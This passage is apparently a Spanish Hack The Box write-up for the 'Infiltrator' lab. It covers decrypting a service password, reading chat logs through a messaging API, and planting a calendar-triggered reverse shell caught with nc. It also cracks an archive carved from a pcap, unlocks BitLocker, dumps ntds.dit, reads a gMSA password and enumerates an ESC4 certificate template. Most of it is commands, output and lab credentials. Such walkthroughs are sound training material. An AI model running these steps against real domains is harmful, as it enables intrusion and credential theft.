    cipher_data = base64.b64decode(cipher_text_b64)

    # IV de 16 bytes en ceros
    iv = b"\x00" * AES.block_size

    # Inicializar el cifrador
    cipher = AES.new(key, AES.MODE_CBC, iv)

    # Descifrar
    decrypted = cipher.decrypt(cipher_data)

    # Eliminar relleno PKCS7
    unpadded = unpad_pkcs7(decrypted)

    # Devolver texto UTF-8
    return unpadded.decode('utf-8')

def main():
    if len(sys.argv) != 2:
        print(f"Uso: {sys.argv[0]} <texto_cifrado_base64>")
        print("Este script espera un texto cifrado en base64 como argumento.")
        return

    cipher_text = sys.argv[1]

    # Clave fija de ejemplo (16 bytes para AES-128)
    key = b"b14ca5898a4e4133bbce2ea2315a1916"

    try:
        plaintext = decrypt_string(key, cipher_text)
        print(f"Contraseña descifrada: {plaintext}")
    except Exception as e:
        print(f"Error al descifrar: {e}")

if __name__ == '__main__':
    main()
```

Ejecutandolo nos da lo siguiente:

```bash
❯ python3 decrypt.py TGlu22oo8GIHRkJBBpZ1nQ/x6l36MVj3Ukv4Hw86qGE=
Contraseña descifrada: SKqwQk81tgq+C3V7pzc1SA==
```

Nos da lo que seria otra clave cifrada, y al ponerla nuevamente en el decrypt.py arroja lo siguiente:

```bash
❯ python3 decrypt.py SKqwQk81tgq+C3V7pzc1SA==
Contraseña descifrada: WinRm@$svc^!^P
```

Hemos conseguido la pass correcta para winrm_svc. Por lo que, a partir de ahora podemos probar con netexec si dichas credenciales nos dan a otro usuario capaz de autenticarse al DC vía WINRM:

```bash
❯ netexec winrm 10.10.11.31 -u winrm_svc -p 'WinRm@$svc^!^P'
WINRM       10.10.11.31     5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:infiltrator.htb) 
WINRM       10.10.11.31     5985   DC01             [+] infiltrator.htb\winrm_svc:WinRm@$svc^!^P (Pwn3d!)
```

Y en efecto, sabemos que esto fue valido debido a la flag de "Pwn3d!" y el símbolo de "+" que aparece justo después de comprobar. Dichas credenciales también las podemos probar con la aplicación de Output-Messenger para ver que tal:



Las mismas credenciales que obtuvimos también nos sirvieron para acceder a la app. En esta cuenta no hay ningún chat que llame la atención... Excepto por las notas que tiene el usuario. Cabe recalcar que aunque abajo en donde mismo encontramos por primera vez a este usuario a través de L.clark, no hay nada, es básicamente lo mismo que vimos con L.clark, pero desde la perspectiva de este nuevo usuario pwned. Por lo que, revisando las notas que tiene este usuario, nos encontramos con lo siguiente:



### Access as O.martinez

Nos encontramos con lo que parece ser, una API (Application Programming Interface). Que es esto y de que nos sirve? 

- La API basicamente es como un intermediario, para que ambas aplicaciones se comuniquen entre si sin necesidad de conocer su implementacion interna.

- Con esto claro, a traves de la API podemos realizar solicitudes que simulan acciones del usuario propietario del token: enviar mensajes, consultar usuarios, etc. Sin necesariamente estar dentro de una interfaz grafica (como un navegador, app, etc).

Revisando la documentacion de [Output-Messenger](https://support.outputmessenger.com/output-messenger/api-helper/) en la seccion de la API, tenemos en cuenta que podemos ver chats y revisarlos, y pues con esto, a traves de curl podemos hacerlo, teniendo en cuenta que nuestra salida al menos debemos detallarla con JQ (formato json):

```javascript
❯ curl -s -XGET 'http://127.0.0.1:14125/api/chatrooms/' -H "API-KEY: 558R501T5I6024Y8JV3B7KOUN1A518GG" | jq
{
  "rows": [
    {
      "room": "Chiefs_Marketing_chat",
      "roomusers": "O.martinez|0,A.walker|0"
    },
    {
      "room": "Dev_Chat",
      "roomusers": "Admin|0,M.harris|0,K.turner|0,Developer_01|0,Developer_02|0,Developer_03|0"
    },
    {
      "room": "General_chat",
      "roomusers": "Admin|0,D.anderson|0,L.clark|0,M.harris|0,O.martinez|0,A.walker|0,K.turner|0,E.rodriguez|0,winrm_svc|0,Developer_01|0,Developer_02|0,Developer_03|0"
    },
    {
      "room": "Marketing_Team_chat",
      "roomusers": "D.anderson|0,L.clark|0"
    }
  ],
  "success": true
}
```

Al parecer esta API pertenece a otro usuario el cual no es "winrm_svc", debido a que los chats que se muestran aqui, no son los que tiene winrm_svc. Dentro de estos chats que se ven, hay uno que especificamente nos llama la atención, el cual es "Chiefs_Marketing_chat". Que podemos hacer ahora?

Podemos revisar el historial del chat (siguiendo la documentacion), pero para ello, necesitaríamos conocer primero el ID del chat (el cual no conocemos). Por lo cual, revisando mas a fondo desde WINRM (con el usuario winrm_svc que previamente habíamos pwneado) en la siguiente ruta:

`appdata\roaming\Output Messenger\Jaaa` 

Encontramos dos archivos de bases de datos, que descargándolas y abriéndolas con sqlite3 (de consola) en nuestro maquina atacante Linux nos muestra la siguiente data:

```sqlite
❯ sqlite3 OM.db3
SQLite version 3.49.2 2025-05-07 10:39:52
Enter ".help" for usage hints.
sqlite> .tables
om_chatroom               om_drive_files            om_preset_message       
om_chatroom_user          om_escape_message         om_reminder             
om_custom_group_new       om_hide_usergroup         om_settings             
om_custom_group_user_new  om_notes                  om_user_master          
om_custom_status          om_notes_user             om_user_photo           
sqlite> 
sqlite> select * from om_chatroom;
1|General_chat|20240219160702@conference.com|General_chat||20240219160702@conference.com|1|2024-02-20 01:07:02.909|0|0||0|0|1||
2|Chiefs_Marketing_chat|20240220014618@conference.com|Chiefs_Marketing_chat||20240220014618@conference.com|1|2024-02-20 10:46:18.858|0|0||0|0|1||
```

Ya con este solo archivo tenemos todo, no necesitaremos el otro en este caso. Por lo que, ahora tenemos los ID's correspondientes a los chats que queremos leer. Ahora metiendo esto en nuestra solicitud de curl para probar con el primero nos da lo siguiente:

```javascript
❯ curl -s -XGET 'http://127.0.0.1:14125/api/chatrooms/logs?roomkey=20240219160702@conference.com&fromdate=2022/05/01&todate=2025/05/28' -H "API-KEY: 558R501T5I6024Y8JV3B7KOUN1A518GG" | jq
{
  "success": true,
  "logs": "<style>\n*, *:before, *:after {\nbox-sizing: border-box;\n}\na {\ntext-decoration:none;\ncolor: black;\n}\na:link,a:visited,a:hover,a:active  {\ncolor: black;\n}\n.room_log{\nfont-family: \"Open Sans\" ,Segoe UI,Calibri,Candara,Arial,sans-serif;\nfont-size: 13px;\nfont-weight: 400;\ncolor: #333;\nbackground-color: #fff;\n}\n.room_log p {\nmargin: 0px;\npadding: 0px;\nline-height: 20px;\n}\n.room_log #greybk {\nbackground-color: #f7f7f7;\nclear: both;\nwidth: 100%;\nfloat: left;\n}\n.room_log #whitebk {\nbackground-color: #fcfcfc;\nclear: both;\nwidth: 100%;\nfloat: left;\n}\n.room_log .nickname {\nclear: both;\ncolor: #A1A1A1;\nfloat: left;\nwidth: 70%;\n}\n.room_log .currentusernickname {\nclear: both;\ncolor: #319aff;\nfloat: left;\nwidth: 70%;\n}\n.room_log .msg_time, .room_log .msg_timeorange {\npadding: 2px 0p 0px 5px;\nclear: right;\nfloat: right;\nfont-size: 12px;\ncolor: #A1A1A1;\nwidth: 30%;\ntext-align: right;\n}\n.room_log .msg_timeorange {\ncolor: #f98c01;\n}\n.room_log .msg_body {\ncolor: #000000;\nfloat: left;\npadding: 0px 0px 5px 5px;\nwidth: 96%;\noverflow:auto;\n}\n.room_log .msg_leftgc{\ncolor: #A1A1A1;\nfont-size: 12px;\nfloat: right;\nfont-weight: bold;\npadding-bottom: 5px;\n}\n#whitebk.msg_leftgc, #greybk.msg_leftgc{\ntext-align:right;\n}\n.room_log .msg_signout {\ncolor: #0072c6;\nfloat: right;\nfont-w............"
}
```

Y ahora esta data agregandola a un beauty code nos devuelve lo siguiente:



Funciona, ahora aplicando la misma tecnica para el otro chat nos da lo siguiente:

```bash
❯ curl -s -XGET 'http://127.0.0.1:14125/api/chatrooms/logs?roomkey=20240220014618@conference.com&fromdate=2022/05/01&todate=2025/05/28' -H "API-KEY: 558R501T5I6024Y8JV3B7KOUN1A518GG" | jq
{
  "success": true,
  "logs": "<style>\n*, *:before, *:after {\nbox-sizing: border-box;\n}\na {\ntext-decoration:none;\ncolor: black;\n}\na:link,a:visited,a:hover,a:active  {\ncolor: black;\n}\n.room_log{\nfont-family: \"Open Sans\" ,Segoe UI,Calibri,Candara,Arial,sans-serif;\nfont-size: 13px;\nfont-weight: 400;\ncolor: #333;\nbackground-color: #fff;\n}\n.room_log p {\nmargin: 0px;\npadding: 0px;\nline-height: 20px;\n}\n.room_log #greybk {\nbackground-color: #f7f7f7;\nclear: both;\nwidth: 100%;\nfloat: left;\n}\n.room_log #whitebk {\nbackground-color: #fcfcfc;\nclear: both;\nwidth: 100%;\nfloat: left;\n}\n.room_log .nickname {\nclear: both;\ncolor: #A1A1A1;\nfloat: left;\nwidth: 70%;\n}\n.room_log .currentusernickname {\nclear: both;\ncolor: #319aff;\nfloat: left;\nwidth: 70%;\n}\n.room_log .msg_time, .room_log .msg_timeorange {\npadding: 2px 0p 0px 5px;\nclear: right;\nfloat: right;\nfont-size: 12px;\ncolor: #A1A1A1;\nwidth: 30%;\ntext-align: right;\n}\n.room_log .msg_timeorange {\ncolor: #f98c01;\n}\n.room_log .msg_body {\ncolor: #000000;\nfloat: left;\npadding: 0px 0px 5px 5px;\nwidth: 96%;\noverflow:auto;\n}\n.room_log .msg_leftgc{\ncolor: #A1A1A1;\nfont-size: 12px;\nfloat: right;\nfont-weight: bold;\npadding-bottom: 5px;\n}\n#whitebk.msg_leftgc, #greybk.msg_leftgc{\ntext-align:right;\n}\n.room_log .msg_signout {\ncolor: #0072c6;\nfloat: right;\nfont-weight: bold;\npadding-bottom: 5px;\n}\n.room_log .unreadmsg {\nfloat: right;\............."
```

Y agregandolo al beauty:



Pwned! Tenemos a O.martinez, o eso creemos. Probando las credenciales para ver si son reutilizables dentro del DC y de la app nos da lo siguiente:

```bash
# Dentro del DC

❯ netexec smb 10.10.11.31 -u o.martinez -p 'm@rtinez@1996!'
SMB         10.10.11.31     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.31     445    DC01             [-] infiltrator.htb\o.martinez:m@rtinez@1996! STATUS_LOGON_FAILURE 
```

No funciona en lo absoluto, mas sin embargo, dentro de la app nos da otra respuesta:



Por lo que, al parecer martinez toma algunas precauciones extras y por lo tanto, se puede complicar un poco. Para nuestra suerte, Output-Messenger tiene la opcion de agendar calendarios, y dentro de ello, asignar tareas para diferentes fechas a diferentes horas. Dicho esto, podemos ver en el calendario de "o.martinez" que tiene asignado abrir la pagina web todos los dias a la misma hora, para cerrarla a una hora definifa:



### Shell as O.martinez

Dentro de aquí, podemos agregar que se ejecute a X hora un ejecutable que en teoría nos mande una shell. Teóricamente solo tendríamos que subir el payload inicial en el DC (Cosa que ya esta) para posterior a este, desde la aplicación, hacer que o.martinez lo ejecute, y así nos de shell.

Haciendo este proceso queda algo así:

Primero creando un nuevo evento en el calendario



Luego agregando el ejecutable



Para posteriormente asignarle una hora en especifico y guardarlo para esperar la shell. Verificando la hora de la maquina atacante Windows son las 1:12am a la hora que hago este writeup, por lo que simplemente le diré a la aplicación que ejecute el el exe un minuto después



Nos ponemos en escucha por ultimo, y en teoría o.martinez deberia de ejecutar el archivo, pero por alguna razón nunca se me ejecuto la shell desde el DC, si no desde el Windows atacante. Pero suponiendo que se ejecuto desde el DC, tendría que salirnos algo así:

```bash
❯ rlwrap -cAr nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.14.26 42631
Microsoft Windows [Version 10.0.19045.5854]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

Obviamente dandonos la IP del DC y no la de nuestra maquina Windows atacante, pero suponiendo que tenemos la shell desde el DC, lo que podriamos revisar seria la appdata de o.martinez para ver que se encuentra alli, y nos encontramos con el siguiente archivo en la siguiente ubicacion:

```powershell
PS C:\Users\O.martinez\appdata\Roaming\Output Messenger\faaa\received files\203301> dir
dir


    Directory: C:\Users\O.martinez\appdata\Roaming\Output Messenger\faaa\received files\203301


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        2/23/2024   4:10 PM         292244 network_capture_2024.pcapng  
```

### Analyzing pcap with Wireshark

Dicho archivo lo copiamos a un directorio que podamos acceder con cualquier usuario y tenemos lo siguiente:

```powershell
PS C:\Users\O.martinez\appdata\Roaming\Output Messenger\faaa\received files\203301> Copy-Item -Path "network_capture_2024.pcapng" -Destination "C:\tools"
Copy-Item -Path "network_capture_2024.pcapng" -Destination "C:\tools"
PS C:\Users\O.martinez\appdata\Roaming\Output Messenger\faaa\received files\203301> dir c:\tools
dir c:\tools


    Directory: C:\tools


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        5/28/2025   7:17 PM        9207808 chisel.exe                                                            
-a----        2/23/2024   4:10 PM         292244 network_capture_2024.pcapng                                           
-a----        5/28/2025   7:16 PM           7168 reverse.exe                                                           


PS C:\Users\O.martinez\appdata\Roaming\Output Messenger\faaa\received files\203301> 
```

Una vez hecho esto, confirmamos que podemos acceder al recurso y descargarlo como otro usuario:

```powershell
❯ evil-winrm -i dc01.infiltrator.htb -u winrm_svc -p 'WinRm@$svc^!^P'
  
Evil-WinRM shell v3.7

Warning: Remote path completions is disabled due to ruby limitation: undefined method 'quoting_detection_proc' for module Reline
 
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
 
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\winrm_svc\Documents> cd c:\tools
*Evil-WinRM* PS C:\tools> dir


    Directory: C:\tools


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        5/28/2025   7:17 PM        9207808 chisel.exe
-a----        2/23/2024   4:10 PM         292244 network_capture_2024.pcapng
-a----        5/28/2025   7:16 PM           7168 reverse.exe


*Evil-WinRM* PS C:\tools> download network_capture_2024.pcapng
   
Info: Downloading C:\tools\network_capture_2024.pcapng to network_capture_2024.pcapng
  
Info: Download successful!
*Evil-WinRM* PS C:\tools> 
```

Perfecto, pudimos descargarlo y ahora toca seguir en nuestra maquina atacante Linux.

Una vez descargado el archivo pcap en nuestra maquina atacante, debemos abrirlo con wireshark para una vez abierto, ver algo asi:



Filtramos por http, y nos devuelve lo siguiente:



Tenemos lo que parece ser un archivo backup en formato 7z. Para nuestra suerte, existe una forma de reconstruir este archivo para almacenar la copia original en nuestra maquina y asi ver que contiene y ver que nos puede servir para mas adelante.

Este [tutorial](https://www.youtube.com/watch?v=Fn__yRYW6Wo) puede servirnos para la tarea, pero de todas formas, mostrare como hacerlo aqui en este writeup:

Lo primero es que debemos seleccionar la opcion de file



Una vez estando aqui, debemos darle click a la siguiente opcion



Una vez aquí, dado que el archivo que queremos extraer se encuentra en el protocolo http, debemos seleccionar ese para que nos aparezca esta ventana



Una vez hecho esto, seleccionamos el archivo a guardar. En este caso, el que nos llama la atención, que es "BitLocker-backup.7z". Después de esto, nos pedirá la ruta donde queremos guardarlo y eso seria todo :).

Una vez descargado, debemos descomprimirlo, pero tenemos un problema, este tiene clave como se ve a continuación:

```bash
❯ 7z x BitLocker-backup.7z

7-Zip 24.09 (x64) : Copyright (c) 1999-2024 Igor Pavlov : 2024-11-29
 64-bit locale=C.UTF-8 Threads:16 OPEN_MAX:1024, ASM

Scanning the drive for archives:
1 file, 209327 bytes (205 KiB)

Extracting archive: BitLocker-backup.7z
--
Path = BitLocker-backup.7z
Type = 7z
Physical Size = 209327
Headers Size = 271
Method = LZMA2:20 7zAES
Solid = -
Blocks = 1

    
Enter password:

ERROR: Data Error in encrypted file. Wrong password? : BitLocker-backup/Microsoft account _ Clés de récupération BitLocker.html
    
Sub items Errors: 1

Archives with Errors: 1

Sub items Errors: 1
```

### Cracking 7z with John

Para nuestra fortuna, disponemos de la herramienta 7z2john, la cual hace que el archivo 7z sea entendible para john y así crackearlo. Para hacer esto, basta con solo hacer lo siguiente:

```bash
❯ 7z2john BitLocker-backup.7z > 7z.txt
❯ john --wordlist=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt 7z.txt
Warning: detected hash type "7z", but the string is also recognized as "7z-opencl"
Use the "--format=7z-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (7z, 7-Zip [SHA256 128/128 AVX 4x AES])
Proceeding with wordlist: /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
Press 'q' or Ctrl-C to abort, almost any other key for status
zipper           (BitLocker-backup.7z)
```

Omitimos hacerle un cat porque el hash es demasiado largo, pero después de probar con john, vemos que era una password relativamente sencilla (solo porque se encontraba filtrada). Y con esto, ahora si ejecutamos el mismo comando para descomprimir el 7z, nos da lo siguiente:

```bash
❯ 7z x BitLocker-backup.7z

7-Zip 24.09 (x64) : Copyright (c) 1999-2024 Igor Pavlov : 2024-11-29
 64-bit locale=C.UTF-8 Threads:16 OPEN_MAX:1024, ASM

Scanning the drive for archives:
1 file, 209327 bytes (205 KiB)

Extracting archive: BitLocker-backup.7z
--
Path = BitLocker-backup.7z
Type = 7z
Physical Size = 209327
Headers Size = 271
Method = LZMA2:20 7zAES
Solid = -
Blocks = 1

    
Enter password:zipper

Everything is Ok

Folders: 1
Files: 1
Size:       792371
Compressed: 209327
```

Y si entramos a la carpeta que nos dejo, vemos lo siguiente:

```bash
❯ cd BitLocker-backup
❯ ls
'Microsoft account _ Clés de récupération BitLocker.html'
```

Vemos un archivo poco común en HTML que abriéndolo en el navegador nos da lo siguiente:



Vemos una clave de recuperación que posiblemente pertenezca a un Disco cifrado por bitlocker. Esta la guardaremos para un momento... Casi se me olvida un paso, y es que en volviendo a revisar en Wireshark la captura que previamente obtuvimos, tenemos lo siguiente:



Tenemos la pass de o.martinez. Validandola con netexec nos da lo siguiente: 

```bash
❯ netexec smb 10.10.11.31 -u o.martinez -p 'M@rtinez_P@ssw0rd!'
SMB         10.10.11.31     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.31     445    DC01             [+] infiltrator.htb\o.martinez:M@rtinez_P@ssw0rd! 
```

Nos da positivo. La unica diferencia es que o.martinez no tiene winrm como podemos ver aqui:

```bash
❯ netexec winrm 10.10.11.31 -u o.martinez -p 'M@rtinez_P@ssw0rd!'
WINRM       10.10.11.31     5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:infiltrator.htb) 
WINRM       10.10.11.31     5985   DC01             [-] infiltrator.htb\o.martinez:M@rtinez_P@ssw0rd!
```

Pero si tenemos acceso via rdp, lo cual nos sirve mucho teniendo en cuenta la clave de bitlocker que obtuvimos:

```bash
❯ netexec rdp 10.10.11.31 -u o.martinez -p 'M@rtinez_P@ssw0rd!'
RDP         10.10.11.31     3389   DC01             [*] Windows 10 or Windows Server 2016 Build 17763 (name:DC01) (domain:infiltrator.htb) (nla:True)
RDP         10.10.11.31     3389   DC01             [+] infiltrator.htb\o.martinez:M@rtinez_P@ssw0rd! (Pwn3d!)
```

### Access via RDP as O.martinez

Si nos arroja un "Pwn3d!" es que en efecto podemos conectarnos sin problema a dicho protocolo. Usamos la herramienta llamada xfreerdp para la tarea con el siguiente comando:

```bash
xfreerdp /v:10.10.11.31 /u:o.martinez /p:'M@rtinez_P@ssw0rd!' /cert:ignore /dynamic-resolution
```

El cual nos arroja lo siguiente:



Pero debemos ser un poco rapidos ya que la sesion no dura mucho y por lo tanto, todo lo que hagamos se pierde. Asi que lo primero que haremos sera verificar las particiones desde el explorador de archivos en "Este Equipo":



Existe otra particion cifrada / bloqueada por bitlocker, pero tenemos la clave de recuperacion que habiamos obtenido mediante el pcap de Wireshark, por lo que, importandola nos da lo siguiente:





Tenemos acceso a la particion, y por lo tanto, podemos enumerar que hay en ella. Raramente enumerando, nos encontramos con el directorio del Administrator y podemos acceder a el. El archivo que nos llama la atencion es el siguiente:



Por lo que, antes de que se cierre la sesion, y el disco vuelva a ser cifrado, hacemos la misma tecnica que aplicamos para el archivo pcap. Copiamos este archivo a un directorio accesible por cualquiera y lo descargamos desde alli:

```powershell
❯ evil-winrm -i dc01.infiltrator.htb -u winrm_svc -p 'WinRm@$svc^!^P'
 
Evil-WinRM shell v3.7
  
Warning: Remote path completions is disabled due to ruby limitation: undefined method 'quoting_detection_proc' for module Reline
 
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\winrm_svc\Documents> cd c:\tools
*Evil-WinRM* PS C:\tools> dir


    Directory: C:\tools


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        2/25/2024   6:23 AM        2055137 Backup_Credentials.7z
-a----        5/28/2025   7:17 PM        9207808 chisel.exe
-a----        2/23/2024   4:10 PM         292244 network_capture_2024.pcapng
-a----        5/28/2025   7:16 PM           7168 reverse.exe


*Evil-WinRM* PS C:\tools> download Backup_Credentials.7z
   
Info: Downloading C:\tools\Backup_Credentials.7z to Backup_Credentials.7z

Info: Download successful!
*Evil-WinRM* PS C:\tools> 
```

Perfecto, estamos casi cerca de convertirnos en Administradores del Dominio. Una vez descargado, procedemos a descomprimirlo de la misma manera que hicimos anteriormente. La unica diferencia es que este no posee una pass para asegurar la seguridad de este. Por lo que, sera mucho mas facil para nosotros

```bash
❯ 7z x Backup_Credentials.7z

7-Zip 24.09 (x64) : Copyright (c) 1999-2024 Igor Pavlov : 2024-11-29
 64-bit locale=C.UTF-8 Threads:16 OPEN_MAX:1024, ASM

Scanning the drive for archives:
1 file, 2055137 bytes (2007 KiB)

Extracting archive: Backup_Credentials.7z
--
Path = Backup_Credentials.7z
Type = 7z
Physical Size = 2055137
Headers Size = 250
Method = LZMA2:24
Solid = +
Blocks = 1

Everything is Ok

Folders: 2
Files: 3
Size:       48513024
Compressed: 2055137
```

Este archivo nos deja dos carpetas, y revisandolas nos da lo siguiente:

```bash
❯ ls registry
 SECURITY  SYSTEM
❯ ls 'Active Directory'
ntds.dit
```

### Converting NTDS to SQLite

Tenemos estos archivo a continuacion... Que procede? Podemos usar una tool llamada [ntdsdotsqlite](https://github.com/almandin/ntdsdotsqlite) la cual basicamente se encarga de todo estos archivo, convertirlo a formato sql para poder leerlo. Lo hacemos con el siguiente comando:

```bash
❯ ntdsdotsqlite ../Active\ Directory/ntds.dit --system SYSTEM -o ntds.sqlite
100%|██████████████████████████████████████████████████████████████████████████████████████████| 3823/3823 [00:00<00:00, 7844.38it/s]
```

Nos sale que fue exitoso. Ahora revisando sqlitebrowser encontramos lo siguiente:



Prácticamente, tenemos en formato sqlite toda la base de datos del Active Directory (Aunque sea un backup). Revisando la tabla de los usuarios, nos encontramos con otra cosa interesante a continuación:



Nos encontramos con una pass, y siguiendo la linea en la que encontramos esta pass vemos lo siguiente:



Lo que vemos es que esta pass parece pertenecer al usuario "Lan_Managment". Esto lo podemos confirmar con netexec, para ver si la pass que obtuvimos aun es valida a pesar de ser un backup y el resultado nos da esto:

```bash
❯ netexec smb 10.10.11.31 -u lan_managment -p 'l@n_M@an!1331'
SMB         10.10.11.31     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.31     445    DC01             [+] infiltrator.htb\lan_managment:l@n_M@an!1331 
```

La pass que obtuvimos es valida. Aunque no es que podamos hacer mucho a simple vista, si revisamos nuestro bloodhound el cual desde un principio habíamos corrido, nos muestra la siguiente data:



### Abusing DACL (ReadGMSPassword)

Tenemos el DACL de "ReadGMSAPassword" sobre lo que seria la cuenta del DC, esto lo confirmamos haciendo click sobre el objeto y revisando sus propiedades:



Y podemos confirmar que la cuenta es una cuenta de máquina, lo cual se identifica por el símbolo "$" al final del nombre. Esta cuenta corresponde a una Managed Service Account (MSA), y no al Domain Controller (DC) como tal.

Abusamos del permiso que tenemos sobre este objeto con el siguiente comando:

```bash
❯ bloodyAD -u "infiltrator_svc$" -hashes :663675deae5af90402f1d53c8117cdaa --host dc01.infiltrator.htb -d infiltrator.htb --dc-ip 10.10.11.31 -u lan_managment -p 'l@n_M@an!1331' get object 'CN=INFILTRATOR_SVC,CN=MANAGED SERVICE ACCOUNTS,DC=INFILTRATOR,DC=HTB' --attr msDS-ManagedPassword

distinguishedName: CN=INFILTRATOR_SVC,CN=MANAGED SERVICE ACCOUNTS,DC=INFILTRATOR,DC=HTB
msDS-ManagedPassword.NTLM: aad3b435b51404eeaad3b435b51404ee:663675deae5af90402f1d53c8117cdaa
msDS-ManagedPassword.B64ENCODED: Ng9cUvupJu3m4AF0LvuNrBPN0yB5+uzsmmCBjkipnOJ/6qk93xNDNRPfkAtwmPyMsn9vahGp+FeoWgubhHUwrVR97wKQ9zKLQ5+VwzdBgv3tqcLFpviCmiCPziAdcKGJkt6yU3xzW+2Q4aGAbzLIRFUAxzPE9JYM1ydCqxPEQXHXqeplHH5MRrFgxri7WGPnRNZ8ks01WYdDirK3e1+j6rpdOGnlgCASOtbLO5vP3qogh7FStH2+WWnQZCqqd67kd14LcbLc6YPoUfct7M60VkBkQefm8pUoci3QUmAWxYXfD1nlnF3NFAlDO46Ihj8iaQUVq7005U5nio0a4pz90A==
```

Perfecto, ahora que tenemos el nthash del DC podemos continuar. Que sigue? 

### ESC4 Exploitation using Certipy

 Una técnica común en entornos Active Directory es abusar de plantillas de certificados vulnerables, también conocidas como ESC (Enterprise Security Certificate) abuses. Estas vulnerabilidades surgen por configuraciones inseguras o permisos mal delegados en los templates de AD CS (Active Directory Certificate Services).

Para ello, utilizaremos la herramienta Certipy, que nos permite enumerar las plantillas de certificados disponibles y detectar posibles vectores de ataque como ESC1, ESC2, ESC6, entre otros.

Primero, buscando las plantilla vulnerables con certipy:

```bash
❯ certipy find -dc-ip 10.10.11.31 -target dc01.infiltrator.htb -enabled -vulnerable
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'infiltrator-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'infiltrator-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'infiltrator-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'infiltrator-DC01-CA'
[*] Saved BloodHound data to '20250529091128_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20250529091128_Certipy.txt'
[*] Saved JSON output to '20250529091128_Certipy.json'
```

Luego, con un cat al .json que nos dejo, vemos si existen certificados vulnerables:

```javascript
❯ /usr/bin/cat 20250529091128_Certipy.json | jq
{
  "Certificate Authorities": {
    "0": {
      "CA Name": "infiltrator-DC01-CA",
      "DNS Name": "dc01.infiltrator.htb",
      "Certificate Subject": "CN=infiltrator-DC01-CA, DC=infiltrator, DC=htb",
      "Certificate Serial Number": "724BCC4E21EA6681495514E0FD8A5149",
      "Certificate Validity Start": "2023-12-08 01:42:38+00:00",
      "Certificate Validity End": "2124-08-04 18:55:57+00:00",
      "Web Enrollment": "Disabled",
      "User Specified SAN": "Disabled",
      "Request Disposition": "Issue",
      "Enforce Encryption for Requests": "Enabled",
      "Permissions": {
        "Owner": "INFILTRATOR.HTB\\Administrators",
        "Access Rights": {
          "2": [
            "INFILTRATOR.HTB\\Administrators",
            "INFILTRATOR.HTB\\Domain Admins",
            "INFILTRATOR.HTB\\Enterprise Admins"
          ],
          "1": [
            "INFILTRATOR.HTB\\Administrators",
            "INFILTRATOR.HTB\\Domain Admins",
            "INFILTRATOR.HTB\\Enterprise Admins"
          ],
          "512": [
            "INFILTRATOR.HTB\\Authenticated Users"
          ]
        }
      }
    }
  },
  "Certificate Templates": {
    "0": {
      "Template Name": "Infiltrator_Template",
      "Display Name": "Infiltrator_Template",
      "Certificate Authorities": [
        "infiltrator-DC01-CA"
      ],
      "Enabled": true,
      "Client Authentication": true,
      "Enrollment Agent": false,
      "Any Purpose": false,
      "Enrollee Supplies Subject": true,
      "Certificate Name Flag": [
        "EnrolleeSuppliesSubject"
      ],
      "Enrollment Flag": [
        "PublishToDs",
        "PendAllRequests",
        "IncludeSymmetricAlgorithms"
      ],
      "Private Key Flag": [
        "ExportableKey"
      ],
      "Extended Key Usage": [
        "Smart Card Logon",
        "Server Authentication",
        "KDC Authentication",
        "Client Authentication"
      ],
      "Requires Manager Approval": true,
      "Requires Key Archival": false,
      "Authorized Signatures Required": 1,
      "Validity Period": "99 years",
      "Renewal Period": "650430 hours",
      "Minimum RSA Key Length": 2048,
      "Permissions": {
        "Object Control Permissions": {
          "Owner": "INFILTRATOR.HTB\\Local System",
          "Full Control Principals": [
            "INFILTRATOR.HTB\\Domain Admins",
            "INFILTRATOR.HTB\\Enterprise Admins",
            "INFILTRATOR.HTB\\Local System"
          ],
          "Write Owner Principals": [
            "INFILTRATOR.HTB\\infiltrator_svc",
            "INFILTRATOR.HTB\\Domain Admins",
            "INFILTRATOR.HTB\\Enterprise Admins",
            "INFILTRATOR.HTB\\Local System"
          ],
          "Write Dacl Principals": [
            "INFILTRATOR.HTB\\infiltrator_svc",
            "INFILTRATOR.HTB\\Domain Admins",
            "INFILTRATOR.HTB\\Enterprise Admins",
            "INFILTRATOR.HTB\\Local System"
          ],
          "Write Property Principals": [
            "INFILTRATOR.HTB\\infiltrator_svc",
            "INFILTRATOR.HTB\\Domain Admins",
            "INFILTRATOR.HTB\\Enterprise Admins",
            "INFILTRATOR.HTB\\Local System"
          ]
        }
      },
      "[!] Vulnerabilities": {
        "ESC4": "'INFILTRATOR.HTB\\\\infiltrator_svc' has dangerous permissions"
      }
    }
  }
}
```

